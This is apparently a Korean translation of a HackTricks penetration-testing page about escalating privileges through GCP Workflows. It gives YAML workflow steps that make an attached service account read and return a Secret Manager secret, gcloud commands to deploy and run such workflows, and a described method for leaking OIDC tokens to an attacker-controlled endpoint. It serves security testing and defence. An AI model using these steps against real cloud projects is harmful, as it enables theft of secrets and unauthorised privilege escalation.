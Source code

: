 # GCP - Workflows Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Workflows

기본 정보:

{{#ref}}
../gcp-services/gcp-workflows-enum.md
{{#endref}}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

내가 아는 한, Workflow에 연결된 SA 자격 증명을 포함하는 메타데이터 엔드포인트에 접근하여 쉘을 얻는 것은 불가능하다. 그러나 Workflow 내에서 수행할 작업을 추가하여 SA의 권한을 악용하는 것은 가능하다.

커넥터의 문서를 찾는 것이 가능하다. 예를 들어, 이것은 [**Secretmanager 커넥터의 페이지**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** 사이드 바에서 여러 다른 커넥터를 찾을 수 있다.

그리고 여기 비밀을 출력하는 커넥터의 예를 찾을 수 있다:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: "${str_secret}"
```
CLI에서 업데이트:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
만약 `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`와 같은 오류가 발생하면, **잠시 기다렸다가 다시 시도하세요**.

웹 접근 권한이 없는 경우, 다음을 사용하여 Workflow의 실행을 트리거하고 볼 수 있습니다:
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
> [!CAUTION]
> 이전 실행의 출력을 확인하여 민감한 정보를 찾을 수도 있습니다.

`PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...`와 같은 오류가 발생하더라도 해당 권한이 없기 때문에 워크플로우는 생성되었습니다.

### OIDC 토큰 유출 (및 OAuth?)

[**문서에 따르면**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) OAuth 또는 OIDC 토큰과 함께 HTTP 요청을 보내는 워크플로우 단계를 사용할 수 있습니다. 그러나 [Cloud Scheduler](gcp-cloudscheduler-privesc.md)의 경우와 마찬가지로, Oauth 토큰이 포함된 HTTP 요청은 호스트 `.googleapis.com`으로 보내야 합니다.

> [!CAUTION]
> 따라서 **사용자가 제어하는 HTTP 엔드포인트를 지정하여 OIDC 토큰을 유출할 수 있습니다**. 그러나 **OAuth** 토큰을 유출하려면 해당 보호를 **우회해야** 합니다. 그러나 여전히 **커넥터 또는 OAuth 토큰을 사용한 HTTP 요청을 통해 SA를 대신하여 GCP API에 연락할 수 있습니다.**

#### Oauth
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

이 권한을 사용하면 `workflows.workflows.create` 대신에 이미 존재하는 워크플로를 업데이트하고 동일한 공격을 수행할 수 있습니다.

{{#include ../../../banners/hacktricks-training.md}}
